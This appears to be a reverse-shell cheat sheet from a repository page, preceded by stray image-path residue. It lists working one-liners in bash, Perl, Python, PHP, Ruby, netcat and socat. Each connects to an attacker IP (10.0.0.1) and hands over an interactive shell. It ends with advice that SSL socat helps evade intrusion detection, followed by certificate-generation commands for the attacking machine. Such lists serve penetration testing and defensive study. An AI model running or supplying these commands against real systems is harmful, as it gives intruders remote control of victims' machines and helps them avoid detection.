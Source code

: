 ```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Perl

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

```
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Socat

```
socat TCP4:10.0.0.1:1234 EXEC:/bin/bash
```

## SSL Socat

Using cryptography helps to evade some types of IDS. First we need to create the certificates in out attacking machine.

```
openssl req -newkey rsa:2048 -nodes -keyout rev_shell.key -x509 -days 362 -out rev_shell.crt
cat rev_shell.key rev_shell.crt > rev_shell.pem
```
